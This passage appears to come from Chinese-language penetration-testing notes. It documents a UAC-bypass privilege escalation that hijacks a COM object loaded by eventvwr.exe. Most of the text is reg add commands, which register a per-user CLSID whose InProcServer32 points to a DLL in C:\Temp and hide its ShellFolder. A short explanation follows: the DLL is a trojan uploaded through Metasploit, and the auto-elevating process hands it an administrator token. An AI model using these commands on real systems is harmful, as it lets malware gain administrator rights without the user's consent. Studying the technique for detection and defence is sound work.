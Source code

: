 "ThreadingModel"="Apartment"

"LoadWithoutCOM"=""

[HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\ShellFolder]

"HideOnDesktop"=""

"Attributes"=dword:f090013d

命令:

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\InProcServer32
/v "" /t REG_SZ /d "C:\\Temp\\calc.dll" /f

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\InProcServer32
/v "LoadWithoutCOM" /t REG_SZ /d "" /f

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\InProcServer32
/v "ThreadingModel" /t REG_SZ /d "Apartment" /f

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\ShellFolder
/v "HideOnDesktop" /t REG_SZ /d "" /f

reg add
HKEY_CURRENT_USER\\Software\\Classes\\CLSID\\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\\ShellFolder
/v "Attributes" /t REG_DWORD /d f090013d /f

eventvwr.exe将会寻找{0A29FF9E-7F9C-4437-8B11-F424491E3931}这个组件，而这个组件又需要加载InProcServer32指定的DLL，这个DLL的路径就是MSF上传的木马DLL。当DLL一旦加载到eventvwr.exe这个进程中，Windows会复制一个管理员的Access
Token给这个DLL创建的进程。

eventvwr.exe如果是被管理员组的用户打开，将会自动提升权限，Windows中会有很多这类的应用程序

![](media/e62035826eb65d371241f7ed04f19315.png)

![](media/189394712dd67feb34f4dec30a330b9a.png)

![](media/83a540f644b2eee8ebffd586d8a3b25f.png)
